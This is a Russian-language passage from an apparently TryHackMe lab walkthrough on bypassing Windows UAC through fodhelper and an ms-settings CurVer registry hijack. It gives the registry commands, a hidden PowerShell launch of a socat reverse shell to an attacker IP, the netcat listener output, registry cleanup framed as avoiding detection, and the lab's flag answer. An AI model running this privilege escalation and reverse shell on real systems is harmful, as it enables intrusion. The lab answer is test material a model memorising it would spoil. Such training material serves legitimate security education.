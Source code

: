Командная строка
```commandline
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
The operation completed successfully.

C:\> fodhelper.exe
```

И мы получаем высоконадежную обратную оболочку:

Оболочка атакующего
```commandline
user@kali$ nc -lvp 4445      
Listening on 0.0.0.0 4445
Connection received on 10.10.183.127 23441
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```

Чтобы получить флаг fodhelper-curver, используйте новую оболочку для выполнения:

Администратор: Командная строка
`C:\> C:\flags\GetFlag-fodhelper-curver.exe`
Примечание: Имейте в виду, что флаг будет возвращен только в том случае, если вы успешно  обошли UAC через fodhelper 
и только из получившейся высокоинтегрированной оболочки через socat.

Расчищаем наши следы
В результате выполнения этого эксплойта в целевой системе были созданы некоторые артефакты, такие как ключи реестра. 
Чтобы избежать обнаружения, нам нужно убрать за собой с помощью следующих команд: 
```commandline
reg delete "HKCU\Software\Classes\.thm\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```

Примечание: Обязательно выполните указанные команды, чтобы избежать помех при выполнении следующих задач.

### Ответьте на вопросы ниже
Какой флаг возвращается при запуске эксплойта fodhelper-curver?
```commandline
THM{AV_UAC_BYPASS_4_ALL}
```

## Задание 6
#### Обход функции «Всегда уведомлять»
Как видно из предыдущей задачи, в конфигурациях Windows по умолчанию вы можете злоупотреблять приложениями, 
связанными с конфигурацией системы, чтобы обойти UAC, поскольку большинство этих приложений имеют флаг autoElevate, 
установленный в их манифестах. Однако, если UAC настроен на уровне «Всегда уведомлять», fodhelper и подобные 
приложения будут бесполезны, поскольку они потребуют от пользователя пройти через запрос UAC для повышения прав. Это 
предотвратит использование нескольких известных методов обхода, но не все потеряно.
